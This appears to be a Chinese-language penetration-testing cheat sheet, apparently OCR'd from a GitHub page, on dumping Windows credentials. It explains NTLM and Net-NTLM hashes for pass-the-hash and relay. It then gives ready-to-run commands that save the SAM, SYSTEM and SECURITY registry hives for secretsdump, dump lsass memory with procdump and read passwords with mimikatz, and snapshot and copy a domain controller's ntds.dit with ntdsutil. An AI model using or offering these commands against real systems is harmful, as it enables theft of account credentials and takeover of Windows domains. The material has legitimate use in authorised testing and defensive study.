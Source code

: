 ## **4.1、ntlmhash和net-ntlmhash**

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

user:sid:lmhash:ntlmhash



因为在vista后不再支持lmhash，因此抓到的hash中的lmhash都是aad3b435b51404eeaad3b435b51404ee

在hash传递攻击时，可以替换成0：

00000000000000000000000000000000

 

ntlmhash我们是可以拿来hash传递的，而net-ntlmhash不可以，但是net-ntlmhash也可以拿来做破解和relay。

## 4.2、本地用户凭据

**a.使用reg命令获取本地用户凭据hash：**

```
reg save  hklm\sam sam.hive
reg  save hklm\system system.hive
reg  save hklm\security security.hive
python secretdump.py -sam sam.hive -security security.hive -system system.hive LOCAL
```

**b.Procdump + mimikatz**

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp #32位系统
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp #64位系统

mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

## 4.3、域hash

### **导出NTDS.dit文件**

**1.Ntdsutil**

Ntdsutil 域控制器默认安装，使管理员能访问和管理 Windows Active Directory 数据库。渗透测试中可以用它来拍摄 ntds.dit 文件的快照

```bash
# 创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
GUID 为 {aa488f5b-40c7-4044-b24f-16fd041a6de2}

# 挂载快照
ntdsutil snapshot "mount GUID" quit quit

# 复制 ntds.dit
copy C:\$SNAP_201908200435_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

# 卸载快照
ntdsutil snapshot "unmount GUID" quit quit

# 删除快照
ntdsutil snapshot "delete GUID" quit quit

# 查询快照
ntdsutil snapshot "List All" quit quit
ntdsutil snapshot "List Mounted" quit quit
```
